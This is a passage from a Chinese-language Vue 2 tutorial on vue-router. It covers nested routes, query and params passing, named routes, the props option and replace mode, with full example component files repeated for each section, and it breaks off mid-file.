3.编写 router 配置项：

```js
//引入VueRouter
import VueRouter from "vue-router";
//引入路由组件
import About from "../components/About";
import Home from "../components/Home";

//创建router实例对象，去管理一组一组的路由规则
const router = new VueRouter({
  routes: [
    {
      path: "/about",
      component: About,
    },
    {
      path: "/home",
      component: Home,
    },
  ],
});
```

4.实现切换（active-class 可配置高亮样式）：

`<router-link active-class="active" to="/about">About</router-link>`

5.指定展示位置：

`<router-view></router-view>`

```vue
//components文件夹下的About.vue文件：
<template>
  <h2>我是About的内容</h2>
</template>
<script>
export default {
  name: "About",
};
</script>
<style></style>
```

```vue
//components文件夹下的Home.vue文件：
<template>
  <h2>我是Home的内容</h2>
</template>
<script>
export default {
  name: "Home",
};
</script>
<style></style>
```

```js
//router文件夹下的index.js文件：
// 该文件专门用于创建整个应用得路由器
import VueRouter from "vue-router";
//引入组件
import About from "../components/About";
import Home from "../components/Home";

// 创建并暴露一个路由器
export default new VueRouter({
  routes: [
    {
      path: "/about",
      component: About,
    },
    {
      path: "/home",
      component: Home,
    },
  ],
});
```

```vue
//App.vue文件：
<template>
  <div>
    <div>
      <div class="row">
        <div class="col-xs-offset-2 col-xs-8">
          <div class="page-header"><h2>Vue Router Demo</h2></div>
        </div>
      </div>
      <div class="row">
        <div class="col-xs-2 col-xs-offset-2">
          <div class="list-group">
            <!-- 原始html中我们使用a标签实现页面得跳转 -->
            <!-- <a class="list-group-item active" href="./about.html">About</a> -->
            <!-- <a class="list-group-item" href="./home.html">Home</a> -->

            <!-- Vue中借助router-link标签实现路由的切换 -->
            <router-link
              class="list-group-item"
              active-class="active"
              to="/about"
              >About</router-link
            >
            <router-link
              class="list-group-item"
              active-class="active"
              to="/home"
              >Home</router-link
            >
          </div>
        </div>
        <div class="col-xs-6">
          <div class="panel">
            <div class="panel-body">
              <!-- 指定组件得呈现位置 -->
              <router-view></router-view>
            </div>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
export default {
  name: "App",
};
</script>
```

```js
//main.js文件：
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
// 引入Vuerouter插件
import VueRouter from "vue-router";
//引入路由器
import router from "./router/index";

//关闭Vue的生产提示
Vue.config.productionTip = false;

// 应用插件
Vue.use(VueRouter);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
  router: router,
});
```

### 2.几个注意点：

1. .路由组件通常存放在`pages`文件夹，一般组件通常存放在`components`文件夹。
2. 通过切换，"隐藏"了的路由组件，默认是被销毁掉的，需要的时候再去挂载。
3. 每个组件都有自己的`$route`属性，里面存储着自己的路由信息。
4. 整个应用只有一个 router，可以通过组件的`$router`属性获取到。

### 3.多级路由(嵌套路由)：

1.配置路由规则，使用 children 配置项：

```
routes:[
	{
		path:'/about',
		component:About
	},
	{
		path:'/home',
		component:Home,
		children:[	//通过children配置子级路由
			{
				path:'news',//此处一定不要写：/news
				component:News
			},
			{
				path:'message',//此处一定不要写：/message
				component:Message
			}
		]
	}
]
```

2.跳转(要写完整路径)：

```
<router-link to="/home/news">News</router-link>
```

```vue
//components文件夹下的Banner.vue文件：
<template>
  <div class="col-xs-offset-2 col-xs-8">
    <div class="page-header"><h2>Vue Router Demo</h2></div>
  </div>
</template>
<script>
export default {
  name: "Banner",
};
</script>
<style></style>
```

```vue
//pages文件夹下的About文件：
<template>
  <h2>我是About的内容</h2>
</template>
<script>
export default {
  name: "About",
  /*beforeDestroy() {
    console.log("About组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("About组件挂载完毕了", this);
  //   window.aboutRoute = this.$route;
  //   window.aboutRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Home.vue文件：
<template>
  <div>
    <h2>Home组件内容</h2>
    <div>
      <ul class="nav nav-tabs">
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/news"
            >News</router-link
          >
        </li>
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/message"
            >Message</router-link
          >
        </li>
      </ul>
      <router-view></router-view>
    </div>
  </div>
</template>
<script>
export default {
  name: "Home",
  /*beforeDestroy() {
    console.log("Home组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("Home组件挂载完毕了", this);
  //   window.homeRoute = this.$route;
  //   window.homeRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Message.vue文件：
<template>
  <div>
    <div>
      <ul>
        <li><a href="/message1">message001</a>&nbsp;&nbsp;</li>
        <li><a href="/message2">message002</a>&nbsp;&nbsp;</li>
        <li><a href="/message/3">message003</a>&nbsp;&nbsp;</li>
      </ul>
    </div>
  </div>
</template>
<script>
export default {
  name: "Message",
};
</script>
<style></style>
```

```vue
//pages文件夹下的News.vue文件：
<template>
  <ul>
    <li>news001</li>
    <li>news002</li>
    <li>news003</li>
  </ul>
</template>
<script>
export default {
  name: "News",
};
</script>
<style></style>
```

```js
//router文件夹下的index.js文件：
// 该文件专门用于创建整个应用得路由器
import VueRouter from "vue-router";
//引入组件
import About from "../pages/About";
import Home from "../pages/Home";
import News from "../pages/News";
import Message from "../pages/Message";

// 创建并暴露一个路由器
export default new VueRouter({
  routes: [
    {
      path: "/about",
      component: About,
    },
    {
      path: "/home",
      component: Home,
      children: [
        {
          path: "news",
          component: News,
        },
        {
          path: "message",
          component: Message,
        },
      ],
    },
  ],
});
```

```js
//App.js文件：
<template>
  <div>
    <div>
      <div class="row">
        <Banner />
      </div>
      <div class="row">
        <div class="col-xs-2 col-xs-offset-2">
          <div class="list-group">
            <!-- 原始html中我们使用a标签实现页面得跳转 -->
            <!-- <a class="list-group-item active" href="./about.html">About</a> -->
            <!-- <a class="list-group-item" href="./home.html">Home</a> -->

            <!-- Vue中借助router-link标签实现路由的切换 -->
            <router-link
              class="list-group-item"
              active-class="active"
              to="/about"
              >About</router-link
            >
            <router-link
              class="list-group-item"
              active-class="active"
              to="/home"
              >Home</router-link
            >
          </div>
        </div>
        <div class="col-xs-6">
          <div class="panel">
            <div class="panel-body">
              <!-- 指定组件得呈现位置 -->
              <router-view></router-view>
            </div>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
import Banner from "./components/Banner";
export default {
  name: "App",
  components: { Banner },
};
</script>
```

```js
//main.js文件：
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
// 引入Vuerouter插件
import VueRouter from "vue-router";
//引入路由器
import router from "./router/index";

//关闭Vue的生产提示
Vue.config.productionTip = false;

// 应用插件
Vue.use(VueRouter);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
  router: router,
});
```

### 4.路由的 query 参数：

1.传递参数：

```
<!--跳转并携带query参数，to的字符串写法-->
<router-link :to="/home/message/detail?id=666&title=你好">跳转</router-link>

<!--跳转并携带query参数，to的对象写法-->
<router-link :to={
	path:'/home/message/detail',
	query:{
		id:666,
		title:"你好"
	}
}>跳转</router-link>
```

2.接收参数：

```
$route.query.id
$route.query.title
```

```vue
//components文件夹下的Banner.vue文件：
<template>
  <div>
    <ul>
      <li v-for="m in massageList" :key="m.id">
        <!-- 跳转路由并携带query参数，to的字符串写法 -->
        <!-- <router-link :to="`/home/message/detail?id=${m.id}&title=${m.title}`">{{
          m.title
        }}</router-link
        >&nbsp;&nbsp; -->
        <!-- 跳转路由并携带query参数，to的对象写法 -->
        <router-link
          :to="{
            path: '/home/message/detail',
            query: {
              id: m.id,
              title: m.title,
            },
          }"
        >
          {{ m.title }} </router-link
        >&nbsp;&nbsp;
      </li>
    </ul>
    <hr />
    <router-view></router-view>
  </div>
</template>
<script>
export default {
  name: "Message",
  data() {
    return {
      massageList: [
        { id: "001", title: "消息001" },
        { id: "002", title: "消息002" },
        { id: "003", title: "消息003" },
      ],
    };
  },
};
</script>
<style></style>
```

```vue
//pages文件夹下的About.vue文件：
<template>
  <h2>我是About的内容</h2>
</template>
<script>
export default {
  name: "About",
};
</script>
<style></style>
```

```vue
//pages文件夹下的Datail.vue文件：
<template>
  <ul>
    <li>消息编号：{{ $route.query.id }}</li>
    <li>消息标题：{{ $route.query.title }}</li>
  </ul>
</template>
<script>
export default {
  name: "Detail",
  mounted() {
    console.log(this.$route);
  },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Home.vue文件：
<template>
  <div>
    <h2>Home组件内容</h2>
    <div>
      <ul class="nav nav-tabs">
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/news"
            >News</router-link
          >
        </li>
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/message"
            >Message</router-link
          >
        </li>
      </ul>
      <router-view></router-view>
    </div>
  </div>
</template>
<script>
export default {
  name: "Home",
};
</script>
<style></style>
```

```vue
//pages文件夹下的Message.vue文件：
<template>
  <div>
    <ul>
      <li v-for="m in massageList" :key="m.id">
        <!-- 跳转路由并携带query参数，to的字符串写法 -->
        <!-- <router-link :to="`/home/message/detail?id=${m.id}&title=${m.title}`">{{
          m.title
        }}</router-link
        >&nbsp;&nbsp; -->
        <!-- 跳转路由并携带query参数，to的对象写法 -->
        <router-link
          :to="{
            path: '/home/message/detail',
            query: {
              id: m.id,
              title: m.title,
            },
          }"
        >
          {{ m.title }} </router-link
        >&nbsp;&nbsp;
      </li>
    </ul>
    <hr />
    <router-view></router-view>
  </div>
</template>
<script>
export default {
  name: "Message",
  data() {
    return {
      massageList: [
        { id: "001", title: "消息001" },
        { id: "002", title: "消息002" },
        { id: "003", title: "消息003" },
      ],
    };
  },
};
</script>
<style></style>
```

```vue
//pages文件夹下的News.vue文件：
<template>
  <ul>
    <li>news001</li>
    <li>news002</li>
    <li>news003</li>
  </ul>
</template>
<script>
export default {
  name: "News",
};
</script>
<style></style>
```

```js
router文件夹下的index.js文件：
// 该文件专门用于创建整个应用得路由器
import VueRouter from "vue-router";
//引入组件
import About from '../pages/About'
import Home from '../pages/Home'
import News from "../pages/News"
import Message from "../pages/Message"
import Detail from "../pages/Detail"


// 创建并暴露一个路由器
export default new VueRouter({
    routes:[
        {
            path:"/about",
            component:About
        },
        {
            path:"/home",
            component:Home,
            children:[
                {
                    path:"news",
                    component:News
                },
                {
                    path:"message",
                    component:Message,
                    children:[
                        {
                            path:'detail',
                            component:Detail
                        }
                    ]
                },

            ]
        },
    ]
})
```

```vue
//App.vue文件：
<template>
  <div>
    <div>
      <div class="row">
        <Banner />
      </div>
      <div class="row">
        <div class="col-xs-2 col-xs-offset-2">
          <div class="list-group">
            <!-- 原始html中我们使用a标签实现页面得跳转 -->
            <!-- <a class="list-group-item active" href="./about.html">About</a> -->
            <!-- <a class="list-group-item" href="./home.html">Home</a> -->

            <!-- Vue中借助router-link标签实现路由的切换 -->
            <router-link
              class="list-group-item"
              active-class="active"
              to="/about"
              >About</router-link
            >
            <router-link
              class="list-group-item"
              active-class="active"
              to="/home"
              >Home</router-link
            >
          </div>
        </div>
        <div class="col-xs-6">
          <div class="panel">
            <div class="panel-body">
              <!-- 指定组件得呈现位置 -->
              <router-view></router-view>
            </div>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
import Banner from "./components/Banner";
export default {
  name: "App",
  components: { Banner },
};
</script>
```

```js
//main.js文件：
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
// 引入Vuerouter插件
import VueRouter from "vue-router";
//引入路由器
import router from "./router/index";

//关闭Vue的生产提示
Vue.config.productionTip = false;

// 应用插件
Vue.use(VueRouter);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
  router: router,
});
```

### 5.命名路由：

1.作用：可以简化路由的跳转。(路径过长才有优势体现出来)

2.如何使用

1. 给路由命名：

   ```
   {
   	path:'/demo',
   	component:Dome,
   	children:[
   		{
   			path:'test',
   			component:Test,
   			children:[
   				{
   					name:'hello'	//给路由命名
   					path:'welcome',
   					component:Hello,
   				}
   			]
   		}
   	]
   }
   ```

2. 简化跳转：

   ```
   <!--简化前，需要写完整的路径-->
   <router-link to="/demo/test/welcome">跳转</router-link>
   
   <!--简化后，直接通过名字跳转-->
   <router-link :to="{name:'hello'}">跳转</router-link>
   
   <!--简化写法配合传递参数-->
   <router-link :to="{
   	name:'hello',
   	query:{
   		id:666,
   		title:'你好'
   	}
   }">跳转</router-link>
   ```

```vue
//components文件夹下的Banner.vue文件：
<template>
  <div class="col-xs-offset-2 col-xs-8">
    <div class="page-header"><h2>Vue Router Demo</h2></div>
  </div>
</template>
<script>
export default {
  name: "Banner",
};
</script>
<style></style>
```

```vue
//pages文件夹下的About.vue文件：
<template>
  <h2>我是About的内容</h2>
</template>
<script>
export default {
  name: "About",
  /*beforeDestroy() {
    console.log("About组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("About组件挂载完毕了", this);
  //   window.aboutRoute = this.$route;
  //   window.aboutRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Detail.vue文件：
<template>
  <ul>
    <li>消息编号：{{ $route.query.id }}</li>
    <li>消息标题：{{ $route.query.title }}</li>
  </ul>
</template>
<script>
export default {
  name: "Detail",
  mounted() {
    console.log(this.$route);
  },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Home.vue文件：
<template>
  <div>
    <h2>Home组件内容</h2>
    <div>
      <ul class="nav nav-tabs">
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/news"
            >News</router-link
          >
        </li>
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/message"
            >Message</router-link
          >
        </li>
      </ul>
      <router-view></router-view>
    </div>
  </div>
</template>
<script>
export default {
  name: "Home",
  /*beforeDestroy() {
    console.log("Home组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("Home组件挂载完毕了", this);
  //   window.homeRoute = this.$route;
  //   window.homeRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Message.vue文件：
<template>
  <div>
    <ul>
      <li v-for="m in massageList" :key="m.id">
        <!-- 跳转路由并携带query参数，to的字符串写法 -->
        <!-- <router-link :to="`/home/message/detail?id=${m.id}&title=${m.title}`">{{
          m.title
        }}</router-link
        >&nbsp;&nbsp; -->
        <!-- 跳转路由并携带query参数，to的对象写法 -->
        <router-link
          :to="{
            name: 'xiangqing',
            query: {
              id: m.id,
              title: m.title,
            },
          }"
        >
          {{ m.title }} </router-link
        >&nbsp;&nbsp;
      </li>
    </ul>
    <hr />
    <router-view></router-view>
  </div>
</template>
<script>
export default {
  name: "Message",
  data() {
    return {
      massageList: [
        { id: "001", title: "消息001" },
        { id: "002", title: "消息002" },
        { id: "003", title: "消息003" },
      ],
    };
  },
};
</script>
<style></style>
```

```vue
//pages文件夹下的News.vue文件：
<template>
  <ul>
    <li>news001</li>
    <li>news002</li>
    <li>news003</li>
  </ul>
</template>
<script>
export default {
  name: "News",
};
</script>
<style></style>
```

```js
//router文件夹下的index.js文件：
// 该文件专门用于创建整个应用得路由器
import VueRouter from "vue-router";
//引入组件
import About from "../pages/About";
import Home from "../pages/Home";
import News from "../pages/News";
import Message from "../pages/Message";
import Detail from "../pages/Detail";

// 创建并暴露一个路由器
export default new VueRouter({
  routes: [
    {
      name: "guanyu",
      path: "/about",
      component: About,
    },
    {
      path: "/home",
      component: Home,
      children: [
        {
          path: "news",
          component: News,
        },
        {
          path: "message",
          component: Message,
          children: [
            {
              name: "xiangqing",
              path: "detail",
              component: Detail,
            },
          ],
        },
      ],
    },
  ],
});
```

```vue
//App.vue文件：
<template>
  <div>
    <div>
      <div class="row">
        <Banner />
      </div>
      <div class="row">
        <div class="col-xs-2 col-xs-offset-2">
          <div class="list-group">
            <!-- 原始html中我们使用a标签实现页面得跳转 -->
            <!-- <a class="list-group-item active" href="./about.html">About</a> -->
            <!-- <a class="list-group-item" href="./home.html">Home</a> -->

            <!-- Vue中借助router-link标签实现路由的切换 -->
            <router-link
              class="list-group-item"
              active-class="active"
              to="/about"
              >About</router-link
            >
            <router-link
              class="list-group-item"
              active-class="active"
              to="/home"
              >Home</router-link
            >
          </div>
        </div>
        <div class="col-xs-6">
          <div class="panel">
            <div class="panel-body">
              <!-- 指定组件得呈现位置 -->
              <router-view></router-view>
            </div>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
import Banner from "./components/Banner";
export default {
  name: "App",
  components: { Banner },
};
</script>
```

```js
//main.js文件：
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
// 引入Vuerouter插件
import VueRouter from "vue-router";
//引入路由器
import router from "./router/index";

//关闭Vue的生产提示
Vue.config.productionTip = false;

// 应用插件
Vue.use(VueRouter);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
  router: router,
});
```

### 6.路由的 params 参数：

1.配置路由，声明接收 params 参数

```
{
	path:'/home',
	component:Home,
	children:[
		{
			path:'news',
			component:News
		},
		{
			path:'message'
			comonent:Message,
			children:[
				{
					name:'xiangqiang',
					path:'detail/:id/:title',//使用占位符声明接收params参数
					component:Detail
				}
			]
		}
	]
}
```

2.传递参数

```
<!--跳转并携带params参数，to的字符串写法-->
<router-link :to="/home/message/detail/666/你好">跳转</router-link>

<!--跳转并携带params参数，to的对象写法-->
<router-link
	:to="{
			name:'xiangqing',
			params:{
				id:666,
				title:'你好'
			}
	}"
>跳转</router-link>
```

> 特别注意：路由携带 params 参数时，若使用 to 的对象写法，则不能使用 path 配置项，必须使用 name 配置！

3.接收参数：

```
$route.params.id
$route.params.title
```

```vue
//components文件夹下的Banner.vue文件：
<template>
  <div class="col-xs-offset-2 col-xs-8">
    <div class="page-header"><h2>Vue Router Demo</h2></div>
  </div>
</template>
<script>
export default {
  name: "Banner",
};
</script>
<style></style>
```

```vue
//pages文件夹下的About.vue文件：
<template>
  <h2>我是About的内容</h2>
</template>
<script>
export default {
  name: "About",
  /*beforeDestroy() {
    console.log("About组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("About组件挂载完毕了", this);
  //   window.aboutRoute = this.$route;
  //   window.aboutRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Detail.vue文件：
<template>
  <ul>
    <li>消息编号：{{ $route.params.id }}</li>
    <li>消息标题：{{ $route.params.title }}</li>
  </ul>
</template>
<script>
export default {
  name: "Detail",
  mounted() {
    console.log(this.$route);
  },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Home.vue文件：
<template>
  <div>
    <h2>Home组件内容</h2>
    <div>
      <ul class="nav nav-tabs">
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/news"
            >News</router-link
          >
        </li>
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/message"
            >Message</router-link
          >
        </li>
      </ul>
      <router-view></router-view>
    </div>
  </div>
</template>
<script>
export default {
  name: "Home",
  /*beforeDestroy() {
    console.log("Home组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("Home组件挂载完毕了", this);
  //   window.homeRoute = this.$route;
  //   window.homeRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Message.vue文件：
<template>
  <div>
    <ul>
      <li v-for="m in massageList" :key="m.id">
        <!-- 跳转路由并携带params参数，to的字符串写法 -->
        <!-- <router-link :to="`/home/message/detail/${m.id}/${m.title}`">{{
          m.title
        }}</router-link> -->
        <!-- 跳转路由并携带params参数，to的对象写法 -->
        <router-link
          :to="{
            name: 'xiangqing',
            params: {
              id: m.id,
              title: m.title,
            },
          }"
          >{{ m.title }}</router-link
        >
      </li>
    </ul>
    <hr />
    <router-view></router-view>
  </div>
</template>
<script>
export default {
  name: "Message",
  data() {
    return {
      massageList: [
        { id: "001", title: "消息001" },
        { id: "002", title: "消息002" },
        { id: "003", title: "消息003" },
      ],
    };
  },
};
</script>
<style></style>
```

```vue
//pages文件夹下的News.vue文件：
<template>
  <ul>
    <li>news001</li>
    <li>news002</li>
    <li>news003</li>
  </ul>
</template>
<script>
export default {
  name: "News",
};
</script>
<style></style>
```

```js
//router文件夹下的index.js文件：
// 该文件专门用于创建整个应用得路由器
import VueRouter from "vue-router";
//引入组件
import About from "../pages/About";
import Home from "../pages/Home";
import News from "../pages/News";
import Message from "../pages/Message";
import Detail from "../pages/Detail";

// 创建并暴露一个路由器
export default new VueRouter({
  routes: [
    {
      name: "guanyu",
      path: "/about",
      component: About,
    },
    {
      path: "/home",
      component: Home,
      children: [
        {
          path: "news",
          component: News,
        },
        {
          path: "message",
          component: Message,
          children: [
            {
              name: "xiangqing",
              path: "detail/:id/:title",
              component: Detail,
            },
          ],
        },
      ],
    },
  ],
});
```

```vue
//App.vue文件：
<template>
  <div>
    <div>
      <div class="row">
        <Banner />
      </div>
      <div class="row">
        <div class="col-xs-2 col-xs-offset-2">
          <div class="list-group">
            <!-- 原始html中我们使用a标签实现页面得跳转 -->
            <!-- <a class="list-group-item active" href="./about.html">About</a> -->
            <!-- <a class="list-group-item" href="./home.html">Home</a> -->

            <!-- Vue中借助router-link标签实现路由的切换 -->
            <router-link
              class="list-group-item"
              active-class="active"
              to="/about"
              >About</router-link
            >
            <router-link
              class="list-group-item"
              active-class="active"
              to="/home"
              >Home</router-link
            >
          </div>
        </div>
        <div class="col-xs-6">
          <div class="panel">
            <div class="panel-body">
              <!-- 指定组件得呈现位置 -->
              <router-view></router-view>
            </div>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
import Banner from "./components/Banner";
export default {
  name: "App",
  components: { Banner },
};
</script>
```

```js
//main.js文件：
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
// 引入Vuerouter插件
import VueRouter from "vue-router";
//引入路由器
import router from "./router/index";

//关闭Vue的生产提示
Vue.config.productionTip = false;

// 应用插件
Vue.use(VueRouter);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
  router: router,
});
```

### 7.路由的 props 配置：

作用：让路由组件更方便的收到参数

```
{
	name:'xiangqing',
	path:'detail',
	component:Detail,

	//第一种写法：props值为对象，该对象中所有的key-value的组合最终都会通过props传给Detail组件
	//props:{a:900}

	//第二种写法：props值为布尔值，布尔值为true，则把路由收到的所有params参数通过props传给Detail组件
	//props:true

	//第三种写法：props值为函数，该函数返回的对象中每一组key-value都会通过props传给Detail组件
	props($route){
		return {
			id:$route.query.id,
			title:$route.query.title
		}
	}
}
```

```vue
//components文件夹下的Banner.vue文件：
<template>
  <div class="col-xs-offset-2 col-xs-8">
    <div class="page-header"><h2>Vue Router Demo</h2></div>
  </div>
</template>
<script>
export default {
  name: "Banner",
};
</script>
<style></style>
```

```vue
//pages文件夹下的About.vue文件：
<template>
  <h2>我是About的内容</h2>
</template>
<script>
export default {
  name: "About",
  /*beforeDestroy() {
    console.log("About组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("About组件挂载完毕了", this);
  //   window.aboutRoute = this.$route;
  //   window.aboutRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Detail.vue文件：
<template>
  <ul>
    <li>消息编号：{{ id }}</li>
    <li>消息标题：{{ title }}</li>
  </ul>
</template>
<script>
export default {
  name: "Detail",
  props: ["id", "title"],
};
</script>
<style></style>
```

```vue
//pages文件夹下的Home.vue文件：
<template>
  <div>
    <h2>Home组件内容</h2>
    <div>
      <ul class="nav nav-tabs">
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/news"
            >News</router-link
          >
        </li>
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/message"
            >Message</router-link
          >
        </li>
      </ul>
      <router-view></router-view>
    </div>
  </div>
</template>
<script>
export default {
  name: "Home",
  /*beforeDestroy() {
    console.log("Home组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("Home组件挂载完毕了", this);
  //   window.homeRoute = this.$route;
  //   window.homeRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Message.vue文件：
<template>
  <div>
    <ul>
      <li v-for="m in massageList" :key="m.id">
        <!-- 跳转路由并携带params参数，to的字符串写法 -->
        <!-- <router-link :to="`/home/message/detail/${m.id}/${m.title}`">{{
          m.title
        }}</router-link> -->
        <!-- 跳转路由并携带params参数，to的对象写法 -->
        <router-link
          :to="{
            name: 'xiangqing',
            query: {
              id: m.id,
              title: m.title,
            },
          }"
        >
          {{ m.title }}
        </router-link>
      </li>
    </ul>
    <hr />
    <router-view></router-view>
  </div>
</template>
<script>
export default {
  name: "Message",
  data() {
    return {
      massageList: [
        { id: "001", title: "消息001" },
        { id: "002", title: "消息002" },
        { id: "003", title: "消息003" },
      ],
    };
  },
};
</script>
<style></style>
```

```vue
//pages文件夹下的News.vue文件：
<template>
  <ul>
    <li>news001</li>
    <li>news002</li>
    <li>news003</li>
  </ul>
</template>
<script>
export default {
  name: "News",
};
</script>
<style></style>
```

```js
//router文件下的index.js文件：
// 该文件专门用于创建整个应用得路由器
import VueRouter from "vue-router";
//引入组件
import About from "../pages/About";
import Home from "../pages/Home";
import News from "../pages/News";
import Message from "../pages/Message";
import Detail from "../pages/Detail";

// 创建并暴露一个路由器
export default new VueRouter({
  routes: [
    {
      name: "guanyu",
      path: "/about",
      component: About,
    },
    {
      path: "/home",
      component: Home,
      children: [
        {
          path: "news",
          component: News,
        },
        {
          path: "message",
          component: Message,
          children: [
            {
              name: "xiangqing",
              path: "detail",
              component: Detail,
              //props的第一种写法，值为对象,该对象中的所有key-value都会以props的形式传给Detail组件
              // props:{a:1,b:'hello'}

              // props的第二种写法，值为布尔值,若布尔值为真，就会被把该路由组件收到的所有params参数，以props的形式传给Detail组件
              // props:true

              //props的第三种写法，值为函数
              props($route) {
                return { id: $route.query.id, title: $route.query.title };
              },
            },
          ],
        },
      ],
    },
  ],
});
```

```vue
//App.vue文件：
<template>
  <div>
    <div>
      <div class="row">
        <Banner />
      </div>
      <div class="row">
        <div class="col-xs-2 col-xs-offset-2">
          <div class="list-group">
            <!-- 原始html中我们使用a标签实现页面得跳转 -->
            <!-- <a class="list-group-item active" href="./about.html">About</a> -->
            <!-- <a class="list-group-item" href="./home.html">Home</a> -->

            <!-- Vue中借助router-link标签实现路由的切换 -->
            <router-link
              class="list-group-item"
              active-class="active"
              to="/about"
              >About</router-link
            >
            <router-link
              class="list-group-item"
              active-class="active"
              to="/home"
              >Home</router-link
            >
          </div>
        </div>
        <div class="col-xs-6">
          <div class="panel">
            <div class="panel-body">
              <!-- 指定组件得呈现位置 -->
              <router-view></router-view>
            </div>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
import Banner from "./components/Banner";
export default {
  name: "App",
  components: { Banner },
};
</script>
```

```js
//main.js文件：
//引入Vue
import Vue from "vue";
//引入App
import App from "./App.vue";
// 引入Vuerouter插件
import VueRouter from "vue-router";
//引入路由器
import router from "./router/index";

//关闭Vue的生产提示
Vue.config.productionTip = false;

// 应用插件
Vue.use(VueRouter);

//创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
  router: router,
});
```

### 8.`<router-link>`的 replace 属性：

1. 作用：控制路由跳转时操作浏览器历史记录的模式
2. 浏览器的历史记录有两种写法：分别为`push`和`replace`，`push`是追加历史记录，`replace`是替换当前记录。路由跳转时候默认为`push`
3. 如何开启 replace 模式：`<router-link replace .....>News</router-link>`

```vue
//component文件夹下的Banner.vue文件：
<template>
  <div class="col-xs-offset-2 col-xs-8">
    <div class="page-header"><h2>Vue Router Demo</h2></div>
  </div>
</template>
<script>
export default {
  name: "Banner",
};
</script>
<style></style>
```

```vue
//pages文件夹下的About.vue文件：
<template>
  <h2>我是About的内容</h2>
</template>
<script>
export default {
  name: "About",
  /*beforeDestroy() {
    console.log("About组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("About组件挂载完毕了", this);
  //   window.aboutRoute = this.$route;
  //   window.aboutRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Detail.vue文件：
<template>
  <ul>
    <li>消息编号：{{ id }}</li>
    <li>消息标题：{{ title }}</li>
  </ul>
</template>
<script>
export default {
  name: "Detail",
  props: ["id", "title"],
};
</script>
<style></style>
```

```vue
//pages文件夹下的Home.vue文件：
<template>
  <div>
    <h2>Home组件内容</h2>
    <div>
      <ul class="nav nav-tabs">
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/news"
            >News</router-link
          >
        </li>
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/message"
            >Message</router-link
          >
        </li>
      </ul>
      <router-view></router-view>
    </div>
  </div>
</template>
<script>
export default {
  name: "Home",
  /*beforeDestroy() {
    console.log("Home组件即将被销毁了");
  },*/
  // mounted() {
  //   console.log("Home组件挂载完毕了", this);
  //   window.homeRoute = this.$route;
  //   window.homeRouter = this.$router;
  // },
};
</script>
<style></style>
```

```vue
//pages文件夹下的Message.vue文件：
<template>
  <div>
    <ul>
      <li v-for="m in massageList" :key="m.id">
        <!-- 跳转路由并携带params参数，to的字符串写法 -->
        <!-- <router-link :to="`/home/message/detail/${m.id}/${m.title}`">{{
          m.title
        }}</router-link> -->
        <!-- 跳转路由并携带params参数，to的对象写法 -->
        <router-link
          :to="{
            name: 'xiangqing',
            query: {
              id: m.id,
              title: m.title,
            },
          }"
        >
          {{ m.title }}
        </router-link>
      </li>
    </ul>
    <hr />
    <router-view></router-view>
  </div>
</template>
<script>
export default {
  name: "Message",
  data() {
    return {
      massageList: [
        { id: "001", title: "消息001" },
        { id: "002", title: "消息002" },
        { id: "003", title: "消息003" },
      ],
    };
  },
};
</script>
<style></style>
```

```vue
//pages文件夹下的News.vue文件：
<template>
  <ul>
